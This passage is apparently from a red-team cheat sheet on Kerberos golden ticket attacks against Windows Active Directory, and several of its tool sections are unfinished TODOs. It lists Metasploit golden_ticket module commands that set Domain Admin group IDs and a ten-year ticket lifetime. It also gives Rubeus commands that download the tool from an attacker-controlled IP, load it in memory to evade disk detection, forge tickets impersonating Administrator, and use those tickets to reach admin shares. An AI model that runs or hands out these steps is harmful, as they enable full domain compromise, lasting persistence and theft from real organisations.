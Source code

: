 By default it is set to "administrator"

```
msf post(windows/esclate/golden_ticket) > set user <username>

msf post(windows/esclate/golden_ticket) > set session <session_id>
```

By default it is set to 87608 (duration of 10 years)

```
msf post(windows/esclate/golden_ticket) > set end_in <>

msf post(windows/esclate/golden_ticket) > set groups 512,513,518,519,520

msf post(windows/esclate/golden_ticket) > run

msf post(windows/esclate/golden_ticket) > sessions -i <session_id>
```

### 1.4 - Sliver

TODO: Fill this info

### 1.5 - Covenant

TODO: Fill this info

### 1.6 - Cobalt Strike

TODO: Fill this info

## 02 - Rubeus

### 2.1 - Manual

#### 2.1.1 - Pass The Ticket

- Run it memory

```powershell
PS C:\> $data = (New-Object Net.WebClient).DownloadString('http://<IP>/Rubeus.exe')
$assembly = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("purge".Split())
```

- Generate a golden ticket

```powershell
PS C:\> [Rubeus.Program]::Main("s4u /user:<username> /rc4:<nt_hash> /impersonateuser:Administrator /msdsspn:<SPN>/<IP> /ptt".Split())

PS C:\> Rubeus.exe s4u /user:<username> /rc4:<nt_hash> /impersonateuser:Administrator /msdsspn:<SPN>/<IP> /ptt

PS C:\> klist

PS C:\> Rubeus.exe triage

PS C:\> Rubeus.exe klist

PS C:\> ls \\<IP>\c$

PS C:\> Rubeus.exe ptt /ticket:golden_ticket.kirbi

PS C:\> Rubeus.exe ptt /ticket:<base64_encoded_golden_ticket>
```
